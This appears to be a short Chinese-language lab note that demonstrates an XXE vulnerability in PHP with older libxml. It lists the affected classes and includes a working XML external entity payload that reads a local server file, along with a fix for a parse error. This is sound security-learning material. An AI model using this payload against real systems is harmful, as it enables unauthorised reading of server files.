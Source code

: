 受到影响的类和函数
`SimpleXMLElement`、`DOMDocument`、`simplexml_load_string`
(libxml<2.9.0, PHP 5, PHP 7)
libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

参考
	- https://github.com/vulhub/vulhub/tree/master/php/php_xxe
	- https://www.kingkk.com/2018/07/%E7%AE%80%E6%9E%90XXE/
	- https://www.php.net/manual/en/class.simplexmlelement.php
	- https://stackoverflow.com/questions/51103431/parsepi-pi-php-never-end-when-trying-to-run-a-new-unit-test

payload：
```php
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///var/www/html/dom.php" >]>
<root>
<name>&xxe;</name>
</root>
```
在获取dom.php文件时，最开始会报错
`DOMDocument::loadXML(): ParsePI: PI php never end ... in file:///var/www/html/dom.php, line: 7 in `
这是因为xml把`<?php`识别为标签的开始，但是并没有出现标签的结束`>`，加上就好了。
